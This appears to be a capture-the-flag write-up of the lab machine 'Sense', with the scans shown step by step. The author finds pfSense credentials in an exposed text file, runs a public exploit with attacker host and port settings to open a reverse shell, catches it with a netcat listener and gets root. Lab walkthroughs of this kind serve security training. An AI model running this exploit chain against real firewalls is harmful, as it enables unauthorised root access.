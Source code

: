 **Ping**
```
ping 10.10.10.60
```
![[Pasted image 20240620184846.png]]

Nmap Default Scan
```
nmap 10.10.10.60 -oN dnmap
```
![[Pasted image 20240620184931.png]]

Nmap Service and Script Scan
```
nmap 10.10.10.60 -sC -sV -A -oN snmap
```
![[Pasted image 20240620185142.png]]

Nmap All Port scan
```
nmap 10.10.10.60 -p- --open -T5 -oN anmap
```
![[Pasted image 20240620185657.png]]

Gobuster Scan
```
gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster443.txt
```


Port 443:
https://10.10.10.60/index.php
![[Pasted image 20240620194008.png]]
The website is running **pfsense**

pfsense default creds
![[Pasted image 20240620193844.png]]

Default creds doesn't worked


We got creds
https://10.10.10.60/system-users.txt
![[Pasted image 20240620194126.png]]
Password should be pfsense, because that is the default password for pfsense, will check

It worked.....!
![[Pasted image 20240620194257.png]]
Creds **rohit:pfsense**
Also we can se the pfsense version.



Will search Public Exploit for the pfsense Version
![[Pasted image 20240620194604.png]]
Found one https://www.exploit-db.com/exploits/43560

As Always saved the python code in file named exp.py and ran the exploit accordingly
```
python3 exp.py --rhost 10.10.10.60 --lhost 10.10.14.6 --lport 443 --username rohit --password pfsense
```
![[Pasted image 20240620195826.png]]

Got Reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240620195916.png]]
We ARe R0o1....!

No need privilege escalation as we already landed in a Root Shell

**root.txt**
![[Pasted image 20240620200053.png]]

user.txt
![[Pasted image 20240620200125.png]]




Done with Sense.....:)
